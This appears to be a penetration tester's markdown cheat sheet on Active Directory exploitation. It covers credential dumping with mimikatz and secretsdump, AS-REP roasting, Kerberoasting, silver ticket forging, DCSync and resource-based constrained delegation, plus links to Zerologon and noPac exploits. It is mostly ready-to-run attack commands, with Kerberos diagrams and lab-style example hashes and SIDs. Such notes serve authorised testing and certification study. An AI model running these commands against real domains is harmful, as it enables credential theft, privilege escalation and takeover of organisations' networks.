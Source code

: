 # ⚔️ AD Exploitation

## Dumping Cached AD Credentials

!!! info
    **SYSTEM** privileges are needed

```shell
# linux
impacket-secretsdump -target-ip <target_ip> <domain>/<user>:<pass>@<target_ip>

# win
.\mimikatz.exe
privilege::debug

# dump cached NTLM hashes on the current system
sekurlsa::logonpasswords

# dump tickets
sekurlsa::tickets

# one-liner
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

## Basic Kerberos Authentication

```mermaid
sequenceDiagram
    participant C as Client
    participant AS as Authentication Server
    participant TGS as Ticket Granting Server
    participant S as Service

    C->>AS: AS-REQ (with credentials)
    AS-->>C: AS-REP (TGT, Session Key for TGS)
    Note right of C: Stores TGT and session key to talk with TGS

    C->>TGS: TGS-REQ (TGT, Authenticator, SPN of Service)
    TGS-->>C: TGS-REP (Service Ticket, Session Key for Service)
    Note right of C: Now has a ticket & session key to talk with Service

    C->>S: AP-REQ (Service Ticket, Authenticator)
```

## AS-REP Roasting

Attack that exploits accounts with **Do not require Kerberos preauthentication** enabled to obtain and crack TGTs offline, revealing the user's NTLM hash.

```mermaid
sequenceDiagram
    participant Attacker
    participant KDC

    Attacker->>KDC: AS-REQ (Username, "Pre-Authentication Not Required")
    activate KDC
    KDC-->>Attacker: AS-REP (TGT encrypted with user's NTLM hash)
    deactivate KDC

    Attacker->>Attacker: Offline Cracking (Attempt to crack TGT to reveal NTLM hash)
```

!!! info
    🐈‍⬛ Hashcat mode -> 18200

```shell
# linux
impacket-GetNPUsers <domain>/ -dc-ip <ip> -request -no-pass -usersfile <valid_users>
kerbrute userenum -d <domain> --dc <ip> <valid_users>

# windows
.\Rubeus.exe asreproast /nowrap
```

## Kerberoasting

Attack that targets service accounts by requesting service tickets and cracking them offline to obtain the account's password.

```mermaid
sequenceDiagram
    participant Attacker
    participant KDC
    participant Service

    Attacker->>KDC: AS_REQ (Valid User Credentials)
    activate KDC
    KDC-->>Attacker: AS_REP (TGT)
    deactivate KDC

    Attacker->>KDC: TGS_REQ (TGT, SPN of target service)
    activate KDC
    KDC-->>Attacker: TGS_REP (Service Ticket encrypted with service account's password)
    deactivate KDC

    Attacker->>Attacker: Offline Cracking (Attempt to crack service ticket)

    Attacker->>Service: AP_REQ (Service Ticket, Authenticator)
    activate Service
    Service-->>Attacker: Access Granted
    deactivate Service
```

!!! info
    🐈‍⬛ Hashcat mode -> 13100

```shell
# sync local time with server if error
ntpdate <dc_ip>

impacket-GetUserSPNs -request -dc-ip <ip> <domain>/<user>

# windows
.\Rubeus.exe kerberoast /nowrap
```

## Silver Ticket

Is a forged Kerberos Ticket Granting Service (TGS) ticket that allows an attacker to gain unauthorized access to a specific service, bypassing the need to request a ticket from the Key Distribution Center (KDC) after initial authentication.

```mermaid
sequenceDiagram
    participant Attacker
    participant Target Service

    Attacker->>Attacker: Extracts NTLM hash of Service Account
    Attacker->>Attacker: Creates forged TGS (Silver Ticket)
    Attacker->>Target Service: Forged AP-REQ (Sends forged TGS to access service)
    Target Service-->>Attacker: AP-REP (Grants unauthorized access)
```

Three pieces of info are needed:

- SPN password hash
- Domain SID
- Target SPN

**Windows**

```shell
# windows 
# SPN hash
.\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

# domain SID
whoami /user
# take everything except the last part; only the domain SID, not the user RID

# forge the ticket
kerberos::golden /sid:S-1-5-21-1987370270-658905905-1781884369 /domain:corp.com /ptt /target:web04.corp.com /service:http /rc4:4d28cf5252d39971419580a51484ca09 /user:jeffadmin
exit

# show saved tickets
klist

# access the service
iwr -UseDefaultCredentials <servicename>://<computername>
```

**Linux**

```shell
# SPN hash
echo -n 'password' | iconv -t utf16le | openssl dgst -md4

# domain SID
impacket-getPac <domain>/<user>:<pass> -targetUser Administrator

# target SPN (shows up after GetUserSPNs)

# forge the ticket
impacket-ticketer -nthash <hash> -domain-sid <sid> -domain <domain> -spn <spn> <user>

# export the ticket
export KRB5CCNAME=<ticket>.ccache

# show saved tickets
klist

# access the target
impacket-psexec <domain>/<user>@<target> -k -no-pass
```

## DCSync

Is an attack that allows an attacker with sufficient privileges to request password hashes and other sensitive information directly from a domain controller, effectively mimicking the behavior of a legitimate domain controller replicating data.

The user needs the following permissions or must belong to a privileged group:

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set

!!! info
    🐈‍⬛ Hashcat mode -> 1000

```shell
# linux
impacket-secretsdump -just-dc-user <target_user> <domain>/<user>:<pass>@<dc_ip>

# windows
.\mimikatz.exe
lsadump::dcsync /user:<domain\user>

# one-liner
.\mimikatz.exe "lsadump::dcsync /user:<domain>\<user>" "exit"
```

## RBCD

A **Resource-Based Constrained Delegation** allows an attacker with write access to a computer object's delegation attribute to impersonate any user on that computer, enabling privilege escalation or lateral movement.

> <https://github.com/tothi/rbcd-attack>

```shell
# Create a new computer
impacket-addcomputer <domain>/<user> -computer-name 'evilcomputer$' -computer-pass 'ev1lP@sS' -dc-ip <ip> -hashes :<hash>

# Add the related security descriptor of the newly created EVILCOMPUTER to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the target computer
rbcd.py -f EVILCOMPUTER -t <computer> -dc-ip <ip> <domain>\\<user> -hashes :<hash>

# Fetch a CIFS Service Ticket on behalf of the targetted domain user admin and stores it in the file admin.ccache
impacket-getST -spn cifs/<computer>.<domain> -impersonate administrator -dc-ip <ip> <domain>/EVILCOMPUTER$:ev1lP@sS
```

Export the ticket and access the computer as administrator

```shell
export KRB5CCNAME=administrator@cifs_<computer>.<domain>@<DOMAIN>.ccache
                                                                                                  
impacket-psexec -k <computer>.<domain>
```

## CVEs and Exploits

- [CVE-2020-1472 - Zerologon](https://github.com/VoidSec/CVE-2020-1472)
- [MS14-068 - Golden Pac](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS14-068/pykek) `impacket-goldenPac`
- [CVE-2021-42278 and CVE-2021-42287 - noPac](https://github.com/Ridter/noPac)
